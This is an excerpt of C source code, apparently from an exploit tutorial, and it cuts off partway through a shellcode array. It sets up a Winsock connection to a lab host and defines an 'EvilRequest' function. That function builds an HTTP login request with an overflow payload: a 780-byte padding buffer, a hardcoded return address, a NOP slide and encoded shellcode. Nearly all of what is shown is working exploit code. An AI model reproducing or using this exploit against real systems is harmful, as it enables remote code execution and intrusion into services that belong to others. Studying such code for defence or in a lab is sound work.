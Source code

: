 ```hlt:55,31,33,69,72-97
    int iResult;

    printf("\n[>] Initialising Winsock...\n");
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
    {
        printf("[!] Failed. Error Code : %d", WSAGetLastError());
        return 1;
    }

    printf("[>] Initialised.\n");
    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
    {
        printf("[!] Could not create socket : %d", WSAGetLastError());
    }

    printf("[>] Socket created.\n");
    server.sin_addr.s_addr = inet_addr("192.168.50.120");
    server.sin_family = AF_INET;
    server.sin_port = htons(80);

    if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0)
    {
        puts("[!] Connect error");
        return 1;
    }
    puts("[>] Connected");

    if (send(s, request, request_size, 0) < 0)
    {
        puts("[!] Send failed");
        return 1;
    }
    puts("\n[>] Request sent\n");
    closesocket(s);
    return 0;
}

void EvilRequest() {
    
    char request_one[] = "POST /login HTTP/1.1\r\n"
                        "Host: 192.168.50.120\r\n"
                        "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Language: en-US,en;q=0.5\r\n"
                        "Referer: http://192.168.50.120/login\r\n"
                        "Connection: close\r\n"
                        "Content-Type: application/x-www-form-urlencoded\r\n"
                        "Content-Length: ";
    char request_two[] = "\r\n\r\nusername=";

    int initial_buffer_size = 780;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
    
    
    unsigned char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
   "\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
   "\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
```